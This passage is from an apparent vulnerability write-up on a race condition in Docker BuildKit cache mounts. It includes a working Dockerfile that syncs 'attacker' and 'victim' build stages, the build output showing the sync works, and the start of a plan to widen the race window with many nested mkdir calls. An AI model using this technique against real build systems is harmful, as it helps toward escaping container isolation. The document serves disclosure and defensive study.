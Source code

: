 Given our above strace output, ideally, we want some way of informing our "attacking" stage that our "victim" stage is inside the window. We can use the mount target directory creation for this. By setting the target mount directory to a subdirectory of a different cache mount, we can share this state between the stages, and the "attacker" stage can just spin, waiting for the target directory to appear in the cache. At this point, it knows that the "victim" stage is inside its window and can immediately perform the attack.

We can test this out with the following Dockerfile, which will just synchronize the two stages:

FROM alpine as attacker
RUN --mount=type=cache,id=mounttarget,target=/test until [ -e /test/MOUNTTARGET ]; do :; done && echo 'Victim is in the window'

FROM alpine as victim
RUN sleep 5
RUN --mount=type=cache,id=mounttarget,target=/test --mount=type=cache,id=mountsource,target=/test/MOUNTTARGET true

FROM alpine
COPY --from=attacker /etc/passwd /passwd_a
COPY --from=victim /etc/passwd /passwd_b
In the build output, we can see successful synchronization:

[snipped for brevity]
#6 [victim 2/3] RUN sleep 5
#6 DONE 5.2s

#7 [victim 3/3] RUN --mount=type=cache,id=mounttarget,target=/test --mount=type=cache,id=mountsource,target=/test/MOUNTTARGET true
#7 ...

#5 [attacker 2/2] RUN --mount=type=cache,id=mounttarget,target=/test until [ -e /test/MOUNTTARGET ]; do :; done && echo 'Victim is in the window'
#5 5.407 Victim is in the window
#5 DONE 5.4s
[snipped for brevity]

#7 [victim 3/3] RUN --mount=type=cache,id=mounttarget,target=/test --mount=type=cache,id=mountsource,target=/test/MOUNTTARGET true
#7 DONE 0.3s
[snipped for brevity]
As you can see, the attacker waited for the full 5 seconds for the target to appear due to the victim’s RUN sleep 5 command. This shows us that the oracle is reliable and can tell exactly when the "victim" is inside their vulnerable window.

Widening the window
At this stage, we have concurrent execution and information of when the "victim" build stage is inside the vulnerable window; in theory, we can mount the attack. However, since our oracle signals us about halfway through the window, we only have 0.0002 seconds to act. While technically possible it might take a lot of retries to exploit this vulnerability successfully. Even running the very simple true command takes 0.003 on my machine, an order of magnitude too slow.

What we can try to do instead is widen the window. If we can slow everything down enough, we will have plenty of time to mount our attack, making the exploit much more reliable and hopefully single-shot. Once again, we can refer back to our original strace output and consider what we control. As we have used above, we control the creation of a directory inside our window, but what if we can create many directories? We have seen earlier that Docker will automatically make nested directory structures as necessary, so we can exploit this fact to cause many calls to mkdir!
